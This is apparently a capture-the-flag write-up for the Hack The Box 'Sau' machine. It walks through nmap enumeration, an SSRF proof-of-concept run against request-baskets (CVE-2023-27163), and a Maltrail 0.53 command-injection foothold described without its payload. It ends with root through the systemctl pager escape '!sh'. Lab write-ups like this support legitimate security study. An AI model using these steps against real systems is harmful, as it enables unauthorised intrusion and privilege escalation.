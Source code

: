 ```yaml
---
slug: /write-up/htb/easy/sau
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Initial scan shows some open ports:

```bash
└──╼ $nmap sau.htb -oA scans/initial_scan -Pn -n
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:10 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Port 80 is behind a firewall.

SSH:
```bash
└──╼ $nmap sau.htb -oA scans/ssh_scan -Pn -n -p22 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:11 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.73 seconds
```

We are dealing with an ubuntu focal.

55555:
The nmap is taking a lot of time in determining the service. However, if we `curl` the port, we can see that it's a webserver:

```bash
└──╼ $curl -vvv sau.htb:55555
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET / HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Content-Type: text/html; charset=utf-8
< Location: /web
< Date: Wed, 27 Sep 2023 18:17:35 GMT
< Content-Length: 27
< 
<a href="/web">Found</a>.
```

The result from nmap came back and say that it cannot determine the service. We can see that if has something to do with baskets:

```
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
```

If we curl the home page, we can see something interesting:
```html
        <small>
          Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
          Version: 1.2.1
        </small>
```

Checking the website source code from the browser, we can see that there's a basket API which used a "Master token" for auth.

```js
        $.ajax({
          method: "POST",
          url: "/api/baskets/" + basket,
          headers: {
            "Authorization" : sessionStorage.getItem("master_token")
          }
```

After reading a bit, looks like the service is a server used to display HTTP requests

## Foothold

Knowing the service and version, we can search for CVEs. 

https://github.com/entr0pie/CVE-2023-27163

Looks like we can abuse of the request-baskets to access the webserver listening on port 80 but firewalled and...it's working:

```bash
┌─[parrot@parrot]─[~/workspace/gal/htb/machines/sau/exploits]
└──╼ $./CVE-2023-27163.sh http://sau.htb:55555/ http://127.0.0.1
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "zfqies" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/zfqies now makes the server request to http://127.0.0.1.
> Authorization: sXxaCFrbUXtDv3qiltNRTbGju6JosLVH8fL2DkqyeiN9
```

```bash
└──╼ $curl -vvv http://sau.htb:55555/zfqies
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET /zfqies HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Cache-Control: no-cache
< Connection: close
< Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
< Content-Type: text/html
< Date: Thu, 28 Sep 2023 09:29:31 GMT
< Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
< Server: Maltrail/0.53
< Transfer-Encoding: chunked
< 
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
```

In the firewalled webserver there's an instance of maltrail 0.53 service, which making a quick google search has a OS command injection vulnerability in the username field of the /login endpoint. There's even a metasploit module to explot it. See: https://packetstormsecurity.com/files/174221/Maltrail-0.53-Unauthenticated-Command-Injection.html

I've made some attempts with the bash and sh payloads from reverse shell and base64 encoded, also play around with data encoding (url encode, form encode, ...)

Finally I've made it work by using a python payload, base64 and form encoding.

We can read the user flag


## Privilege escalation

`sudo -l` shows that the user can execute systemctl status as any user (including root):

```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Let's search how to explot that in GTFO bins, looks like the default pager for systemctl is `less`, we can have access to root by just typing: `!sh` and voila!

We can read root flag.